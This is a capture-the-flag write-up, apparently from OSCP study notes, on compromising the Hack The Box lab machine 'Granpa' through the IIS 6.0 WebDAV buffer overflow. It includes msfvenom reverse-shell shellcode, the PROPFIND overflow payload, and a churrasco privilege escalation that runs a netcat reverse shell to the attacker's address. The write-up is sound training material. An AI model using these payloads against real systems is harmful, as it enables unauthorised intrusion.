

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/window-boxes/granpa-easy
---

# ✅ Granpa (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Remote Buffer Overflow

**System Vulnerable:** 10.10.10.14

**Vulnerability Explanation:** This machine vulnerable to remote buffer overflow which could allow us to execute public exploit code and gain initial foothold on the machine.

**Privilege Escalation Vulnerability:** Out of dated kernel version

**Vulnerability Fix:** Apply patch to the system

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -sC -sV -T4 10.10.10.14
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-10 01:18 EST
Nmap scan report for 10.10.10.14
Host is up (0.048s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Wed, 10 Nov 2021 06:18:40 GMT
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Type: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration

### Port 80 Microsoft-IIS/6.0

By going through port 80, we see the webpage the same as **grandny** machine.

.png>)

The application use webdav protocol too. Let use davtest to check file extension that allow, seem like it doesn't allow anything. The method also not allow PUT and MOVE.

```
└─$ davtest -url http://10.10.10.14
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.14
********************************************************
NOTE    Random string for this session: 4TUKCqafDNykuwL
********************************************************
 Creating directory
MKCOL           FAIL
********************************************************
 Sending test files
PUT     php     FAIL
PUT     jhtml   FAIL
PUT     html    FAIL
PUT     cfm     FAIL
PUT     asp     FAIL
PUT     jsp     FAIL
PUT     shtml   FAIL
PUT     aspx    FAIL
PUT     pl      FAIL
PUT     txt     FAIL
PUT     cgi     FAIL

********************************************************
/usr/bin/davtest Summary:

```

Searching for public exploit of **webdav** protocol.

.png>)

On `WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow` matching the version and method **PROPFIND** allow as the script mention.

## Exploitation

### #1 Failure

On the python script we need to modify some parts.

```
#1 Remote Host that python socket connect

import socket
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('10.10.10.14',80))
```

We need to generate Window Reverse shell to replace on shell code. -v options to add var-name.

```
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.31 LPORT=4444 -f python -v shellcode                                                                           1 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of python file: 1823 bytes
shellcode =  b""
shellcode += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0"
shellcode += b"\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b"
shellcode += b"\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61"
shellcode += b"\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2"
shellcode += b"\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11"
shellcode += b"\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3"
shellcode += b"\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6"
shellcode += b"\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75"
shellcode += b"\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b"
shellcode += b"\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
shellcode += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24"
shellcode += b"\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
shellcode += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
shellcode += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff"
shellcode += b"\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
shellcode += b"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40"
shellcode += b"\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97"
shellcode += b"\x6a\x05\x68\x0a\x0a\x0e\x1f\x68\x02\x00\x11"
shellcode += b"\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74"
shellcode += b"\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75"
shellcode += b"\xec\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d"
shellcode += b"\x64\x00\x89\xe3\x57\x57\x57\x31\xf6\x6a\x12"
shellcode += b"\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01"
shellcode += b"\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
shellcode += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc"
shellcode += b"\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
shellcode += b"\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2"
shellcode += b"\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
shellcode += b"\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f"
shellcode += b"\x6a\x00\x53\xff\xd5"
```

Once we run the exploit code but it doesn't work.

```
└─$ python 41738.py                                                             
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 0
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃翾￿￿Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁���`��1�d�P0�R
�8�u�}�;}$u�X�X$�f� ӋI▒�:I�4��1����  �R�r(�J&1��<a|, ��
                   K�XӋ�ЉD$$[[aYZQ��__Z���]h32hws2_ThLw&�ո�)�TPh)�k��PPPP@P@Ph����՗jh

h\��jVWh��ta�Յ�t
                �u�h���V��hcmd��WWW1�jYV��f�D$<�D$�DTPVVVFVNVVSVhy�?��Չ�NVF�0�`�ջ���Vh������<|
���u�GrojS��>


HTTP/1.1 400 Bad Request
Content-Type: text/html
Date: Wed, 10 Nov 2021 06:37:43 GMT
Connection: close
Content-Length: 20

<h1>Bad Request</h1>
```

Let check for other script on public exploit code with specific vulnerable.

### #2 Failure

This vulnerable has **CVE-2017-726**. We have other script from the github.

Proof of concept code: [https://github.com/danigargu/explodingcan](https://github.com/danigargu/explodingcan)

We need to generate the reverse shell as it mentions.

```
└─$ msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=10.10.14.31 LPORT=4444 > shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 769 (iteration=0)
x86/alpha_mixed chosen with final size 769
Payload size: 769 bytes
```

After running this exploit also doesn't work.

```
└─$ python explodingcan.py http://10.10.10.14 shellcode 
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[*] Using URL: http://10.10.10.14
[*] Server found: Microsoft-IIS/6.0
[*] Found IIS path size: 18
[*] Default IIS path: C:\Inetpub\wwwroot
[*] WebDAV request: OK
[-] 'utf16' codec can't decode bytes in position 2-3: illegal UTF-16 surrogate
```

### #3 Success

Proof of concept code: [https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

We just download and no need to modify any part. Let start netcat listener on port 4444.

```
└─$ python exploit.py 10.10.10.14 80 10.10.14.31 4444                       
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃翾￿￿Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```

.png>)

## Privilege Escalation

Let start check on systeminfo and run windows-exploit-suggester.

```
└─$ python windows-exploit-suggester.py -u                                      
[*] initiating winsploit version 3.3...
[+] writing to file 2021-11-10-mssb.xls
[*] done
```

```
└─$ python windows-exploit-suggester.py -d 2021-11-10-mssb.xls -i systeminfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 1 hotfix(es) against the 356 potential bulletins(s) with a database of 137 known exploits
[*] there are now 356 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2003 SP2 32-bit'
[*] 
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[*]   https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
[*]   https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
[*] 
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
[*] 
[E] MS14-070: Vulnerability in TCP/IP Could Allow Elevation of Privilege (2989935) - Important
[*]   http://www.exploit-db.com/exploits/35936/ -- Microsoft Windows Server 2003 SP2 - Privilege Escalation, PoC
[*] 
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[*]   http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
[*] 
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[*]   https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
[*]   http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
[*]   http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
[*]   http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-062: Vulnerability in Message Queuing Service Could Allow Elevation of Privilege (2993254) - Important
[*]   http://www.exploit-db.com/exploits/34112/ -- Microsoft Windows XP SP3 MQAC.sys - Arbitrary Write Privilege Escalation, PoC
[*]   http://www.exploit-db.com/exploits/34982/ -- Microsoft Bluetooth Personal Area Networking (BthPan.sys) Privilege Escalation
[*] 
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*] 
[E] MS14-040: Vulnerability in Ancillary Function Driver (AFD) Could Allow Elevation of Privilege (2975684) - Important
[*]   https://www.exploit-db.com/exploits/39525/ -- Microsoft Windows 7 x64 - afd.sys Privilege Escalation (MS14-040), PoC
[*]   https://www.exploit-db.com/exploits/39446/ -- Microsoft Windows - afd.sys Dangling Pointer Privilege Escalation (MS14-040), PoC
[*] 
[E] MS14-035: Cumulative Security Update for Internet Explorer (2969262) - Critical
[E] MS14-029: Security Update for Internet Explorer (2962482) - Critical
[*]   http://www.exploit-db.com/exploits/34458/
[*] 
[E] MS14-026: Vulnerability in .NET Framework Could Allow Elevation of Privilege (2958732) - Important
[*]   http://www.exploit-db.com/exploits/35280/, -- .NET Remoting Services Remote Command Execution, PoC
[*] 
[M] MS14-012: Cumulative Security Update for Internet Explorer (2925418) - Critical
[M] MS14-009: Vulnerabilities in .NET Framework Could Allow Elevation of Privilege (2916607) - Important
[E] MS14-002: Vulnerability in Windows Kernel Could Allow Elevation of Privilege (2914368) - Important
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-097: Cumulative Security Update for Internet Explorer (2898785) - Critical
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[M] MS13-080: Cumulative Security Update for Internet Explorer (2879017) - Critical
[M] MS13-071: Vulnerability in Windows Theme File Could Allow Remote Code Execution (2864063) - Important
[M] MS13-069: Cumulative Security Update for Internet Explorer (2870699) - Critical
[M] MS13-059: Cumulative Security Update for Internet Explorer (2862772) - Critical
[M] MS13-055: Cumulative Security Update for Internet Explorer (2846071) - Critical
[M] MS13-053: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (2850851) - Critical
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[M] MS11-080: Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege (2592799) - Important
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[M] MS09-065: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (969947) - Critical
[M] MS09-053: Vulnerabilities in FTP Service for Internet Information Services Could Allow Remote Code Execution (975254) - Important
[M] MS09-020: Vulnerabilities in Internet Information Services (IIS) Could Allow Elevation of Privilege (970483) - Important
[M] MS09-004: Vulnerability in Microsoft SQL Server Could Allow Remote Code Execution (959420) - Important
[M] MS09-002: Cumulative Security Update for Internet Explorer (961260) (961260) - Critical
[M] MS09-001: Vulnerabilities in SMB Could Allow Remote Code Execution (958687) - Critical
[M] MS08-078: Security Update for Internet Explorer (960714) - Critical
[*] done
```

Seem like the machine is **window 2003** and SeImpersonatePrivilege is enabled.

```
C:\wmpub>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```

Let start smb server and share the file to our victim machine.

```
impacket smb-server share .
```

On our victim machine copy nc.exe.

```
C:\wmpub>copy \\10.10.14.31\share\nc.exe .
copy \\10.10.14.31\share\nc.exe .
        1 file(s) copied.
```

Next let run the exploit code that we have share on our machine. Let run netcat on port 6666.

```
C:\wmpub>\\10.10.14.31\share\churrasco.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.14.31 6666"
\\10.10.14.31\share\churrasco.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.14.31 6666"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 680 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x72c
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x724
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

.png>)
